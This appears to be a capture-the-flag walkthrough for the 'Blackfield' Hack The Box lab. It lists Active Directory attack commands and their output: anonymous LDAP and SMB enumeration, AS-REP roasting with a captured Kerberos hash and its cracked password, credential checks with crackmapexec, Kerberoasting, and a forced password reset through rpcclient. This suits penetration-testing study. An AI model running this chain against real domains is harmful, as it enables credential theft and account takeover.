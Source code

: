 ### From LDAP to DNS then back to LDAP
##### Get domains
```bash
root@kali# ldapsearch -h 10.129.1.243 -x -s base namingcontexts

namingcontexts: DC=BLACKFIELD,DC=local
namingcontexts: CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
namingcontexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local
```

##### Dig domain
```bash
dig @10.129.1.243 ForestDnsZones.BLACKFIELD.local
dig @10.129.1.243 DomainDnsZones.BLACKFIELD.local
```

##### LDAP again
```bash
ldapsearch -h $IP -x -b "DC=BLACKFIELD,DC=local" | tee ldap-anonymous # anonymous login
```

### SMB
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#smb---tcp-445

```bash
crackmapexec smb $IP

smbclient -N -L \\\\$IP

smbmap -u null -p "" -H $IP -P 445
```

##### mount and list users as that's the obvious hint
There is an opportunity to create a list of usernames
```bash
sudo mount -t cifs //$IP/profiles$ /mnt
```

use -1 in ls to print only the directories one per line:
```bash
ls -1 /mnt/ > users
```

### UF_DONT_REQUIRE_PREAUTH set to true
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#as-rep-roast

```bash
for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user ; done
for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user | grep krb5asrep; done

# Or use usersfile instead of for loop

./GetNPUsers.py blackfield.local/ -no-pass -usersfile users -dc-ip $IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'

$krb5asrep$23$support@BLACKFIELD.LOCAL:8a1e7ddb1873d327b07f1ab17984ec19$2aefece1a101fca7f6ba50b9566d0820ff6c0aa69bc4fbb1c0fb522a47c9bcfeca825a52f0f80f8e9e24adee03954637d8e13a99147f7d0f5a7704e8fe9859393c279cd0f6df14014a61ef3c0193191656bc4da3f7a8f91aaed8d0b65918d7db56fbff01a46233584f1f438ce82d79e78be99644673b097ed69ae997aeab3c3d724d506cc7d2887ea3a71a35d9fb383ed2479262ca2819026dcdf01ffa013911e83ffacaad656916804a74e228b5992bff6d1b2e1959633cb7db64eee5c5f33a15bc7fe5c
```

### hashcat as usual
`hashcat --example-hashes | grep krb5asrep -B5`

There is chance that the hash is damaged. Just capture it and try again

#00^BlackKnight

### Try to login with evil-winrm and psexec.py
```bash
evil-winrm -i 10.129.1.243 -u support -p "#00^BlackKnight"

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
```

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py BLACKFIELD.LOCAL/support:'#00^BlackKnight'@BLACKFIELD.LOCAL

[*] Requesting shares on BLACKFIELD.LOCAL.....
[-] share 'ADMIN$' are not writable.
```

### Access Check should be done before trying login
##### winrm
```bash
crackmapexec winrm $IP -u support -p '#00^BlackKnight'
```

can't use winrm as expected. 

##### ldap
```bash
ldapsearch -h $IP -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local'
```
can't do either `ldap_bind: Invalid credentials (49)`

##### smb is usually the one

```bash
crackmapexec smb $IP -u support -p '#00^BlackKnight'

smbmap -H $IP -u support -p '#00^BlackKnight'
```

### Kerberoasting since 88 is opening
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $IP BLACKFIELD.LOCAL/support:'#00^BlackKnight' -save -outputfile GetUserSPNs.out
```

No entries found!

### Try rpcclient since none of them worked
```bash
rpcclient -U support $IP

enumdomusers
```
##### Reset some passwords
https://room362.com/post/2017/reset-ad-user-password-with-linux/

https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#forcechangepassword

```bash
rpcclient $> setuserinfo2 Administrator 23 'qwer1234' 
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
rpcclient $> setuserinfo2 audit2020 23 'qwer1234' 
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION
rpcclient $> setuserinfo2 audit2020 23 'qwer1234!' 
rpcclient $> c
```

